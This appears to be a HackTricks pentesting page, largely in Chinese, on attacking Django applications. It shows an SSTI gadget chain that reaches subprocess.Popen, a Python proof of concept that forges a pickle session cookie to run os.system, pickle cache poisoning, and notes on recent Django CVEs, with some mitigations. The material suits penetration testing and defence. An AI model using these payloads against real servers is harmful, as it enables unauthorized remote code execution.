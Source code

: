# Django

{{#include ../../banners/hacktricks-training.md}}

## Cache Manipulation to RCE
Django 的默认缓存存储方式是 [Python pickles](https://docs.python.org/3/library/pickle.html)，如果对 [untrusted input is unpickled](https://media.blackhat.com/bh-us-11/Slaviero/BH_US_11_Slaviero_Sour_Pickles_Slides.pdf) 可能导致 RCE。**如果攻击者能够获得对缓存的写权限，他们可以将此漏洞升级为对底层服务器的 RCE。**

Django 的缓存存储在四种地方之一：[Redis](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/redis.py#L12)、[memory](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/locmem.py#L16)、[files](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/filebased.py#L16)，或一个 [database](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/db.py#L95)。存储在 Redis 或 database 的缓存是最可能的攻击向量（Redis 注入和 SQL 注入），但攻击者也可能利用基于文件的缓存将任意写转为 RCE。维护者已将此标记为非问题。需要注意的是，缓存文件夹、SQL 表名和 Redis 服务的详细信息会根据实现而变化。

这份 HackerOne 报告提供了一个很好的、可重现的示例，展示了如何利用存储在 SQLite database 中的 Django 缓存：https://hackerone.com/reports/1415436

---

## Server-Side Template Injection (SSTI)
The Django Template Language (DTL) 是 **图灵完备** 的。如果将用户提供的数据以 *template string* 的形式渲染（例如通过调用 `Template(user_input).render()`，或当 `|safe`/`format_html()` 去除了自动转义时），攻击者可能实现完整的 SSTI → RCE。

### 检测
1. 查找对 `Template()` / `Engine.from_string()` / `render_to_string()` 的动态调用，这些调用包含 *任何* 未消毒的请求数据。
2. 发送基于时间或算术的 payload：
```django
{{7*7}}
```
如果渲染输出包含 `49`，则输入被模板引擎编译。

### 通往 RCE 的原语
Django 阻止了对 `__import__` 的直接访问，但 Python 对象图是可以到达的：
```django
{{''.__class__.mro()[1].__subclasses__()}}
```
找到 `subprocess.Popen` 的索引（取决于 Python 构建，大约 400–500），并执行任意命令：
```django
{{''.__class__.mro()[1].__subclasses__()[438]('id',shell=True,stdout=-1).communicate()[0]}}
```
更安全的通用 gadget 是迭代直到 `cls.__name__ == 'Popen'`。

相同的 gadget 也适用于 **Debug Toolbar** 或 **Django-CMS** 的模板渲染功能，这些功能不当处理用户输入时。

---

### 另见：ReportLab/xhtml2pdf PDF export RCE
基于 Django 的应用通常集成 xhtml2pdf/ReportLab 来将视图导出为 PDF。当受用户控制的 HTML 流入 PDF 生成时，rl_safe_eval 可能会评估三重括号 `[[[ ... ]]]` 内的表达式，从而允许代码执行 (CVE-2023-33733)。详情、payloads 和缓解措施：

{{#ref}}
../../generic-methodologies-and-resources/python/bypass-python-sandboxes/reportlab-xhtml2pdf-triple-brackets-expression-evaluation-rce-cve-2023-33733.md
{{#endref}}

---

## Pickle-Backed Session Cookie RCE
If the setting `SESSION_SERIALIZER = 'django.contrib.sessions.serializers.PickleSerializer'` is enabled (or a custom serializer that deserialises pickle), Django *decrypts and unpickles* the session cookie **before** calling any view code. Therefore, possessing a valid signing key (the project `SECRET_KEY` by default) is enough for immediate remote code execution.

### Exploit Requirements
* 服务器使用 `PickleSerializer`。
* 攻击者知道 / 能猜到 `settings.SECRET_KEY`（leaks via GitHub、`.env`、错误页面等）。

### Proof-of-Concept
```python
#!/usr/bin/env python3
from django.contrib.sessions.serializers import PickleSerializer
from django.core import signing
import os, base64

class RCE(object):
def __reduce__(self):
return (os.system, ("id > /tmp/pwned",))

mal = signing.dumps(RCE(), key=b'SECRET_KEY_HERE', serializer=PickleSerializer)
print(f"sessionid={mal}")
```
发送生成的 cookie，payload 将以 WSGI worker 的权限运行。

**缓解措施**：保持默认的 `JSONSerializer`，轮换 `SECRET_KEY`，并配置 `SESSION_COOKIE_HTTPONLY`。

---

## 最近（2023-2025）对 Pentesters 有重大影响的 Django CVEs
* **CVE-2025-48432** – *Log Injection via unescaped `request.path`* (已修复于 2025 年 6 月 4 日)。允许攻击者将换行符/ANSI 代码走私到日志文件中，并污染下游的日志分析。修补级别 ≥ 4.2.22 / 5.1.10 / 5.2.2。
* **CVE-2024-42005** – *Critical SQL injection* in `QuerySet.values()/values_list()` on `JSONField` (CVSS 9.8)。通过构造 JSON 键来突破引号并执行任意 SQL。已在 4.2.15 / 5.0.8 中修复。

始终通过 `X-Frame-Options` 错误页面或 `/static/admin/css/base.css` 的哈希指纹来识别确切的框架版本，并在适用时测试上述问题。

---

## 参考资料
* Django 安全公告 – "Django 5.2.2, 5.1.10, 4.2.22 address CVE-2025-48432" – 4 Jun 2025.
* OP-Innovate: "Django releases security updates to address SQL injection flaw CVE-2024-42005" – 11 Aug 2024.
* 0xdf: University (HTB) – Exploiting xhtml2pdf/ReportLab CVE-2023-33733 to gain RCE and pivot into AD – [https://0xdf.gitlab.io/2025/08/09/htb-university.html](https://0xdf.gitlab.io/2025/08/09/htb-university.html)

{{#include ../../banners/hacktricks-training.md}}
